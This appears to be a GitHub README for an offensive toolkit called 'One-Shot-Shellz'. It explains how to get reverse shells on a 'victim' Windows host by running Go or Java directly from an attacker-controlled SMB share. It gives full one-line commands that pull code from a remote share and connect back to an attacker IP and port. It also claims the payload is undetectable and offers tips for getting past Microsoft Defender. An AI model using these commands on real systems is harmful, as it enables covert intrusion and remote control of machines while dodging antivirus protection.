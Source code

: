 # One-Shot-Shellz
## Abusing Remote Windows SMB Shares to Get Reverse Shells In ~~Any~~ Some Programming Languages

This is my collection of ways to Execute Reverse Shells on a Victim Windows Host not using PowerShell or touching disk with an .exe.

More will be added as and when I have the time to research it.

Programming Languages Tested With

1. [Go](#Go)
2. [Java](#example-with-java)


## <a name="Go"></a>The process is extremely simple - Example with Go

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python Java and Go are the only ones I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Java/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your one shot command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)

**NBNB - shell.go is FUD @ 28/04/2023**

![image](https://user-images.githubusercontent.com/130473605/235163241-a43353c0-f538-4b6b-ad3e-4943631242ec.png)


## Defender

According to the Windows Documentation, Defender wont scan User-Level Mapped Shares i.e if you use `net use g: \\192.168.59.60\Go /USER:user Password!` it wont scan and therefore wont attempt to delete the files on the remote share. It can however pick a script up when attempting to execute. Network Shares are scanned. Just something to keep in mind. https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-advanced-scan-types-microsoft-defender-antivirus?view=o365-worldwide

![image](https://user-images.githubusercontent.com/130473605/235164338-683ff6a4-e68d-4b53-9d40-d1a274310c1f.png)

## <a name="Java"></a>Example with Java

1. Download and Install JRE 
2. Share /bin folder - C:\Program Files\Java\jre-1.8\bin - I renamed my bin folder JRE when sharing in Advanced Sharing
3. Download Reverse-Shell.jar and place in /bin folder - Stolen from https://github.com/ivan-sincek/java-reverse-tcp/blob/main/jar/Reverse_Shell.jar
4. Execute java and jar file whilst bypassing Defender `\\192.168.59.130\JRE\bin\java -jar \\192.168.59.130\JRE\bin\Reverse_Shell.jar 10.201.20.61 8445`

![image](https://user-images.githubusercontent.com/130473605/235175752-b3b26e3d-5f12-4052-a124-a498cc28a8c8.png)

5. Enjoy a Java Reverse Shell from a Windows Host that doesnt have Java Installed

![image](https://user-images.githubusercontent.com/130473605/235176177-20c77e58-0a72-49e4-8036-317389f6591d.png)


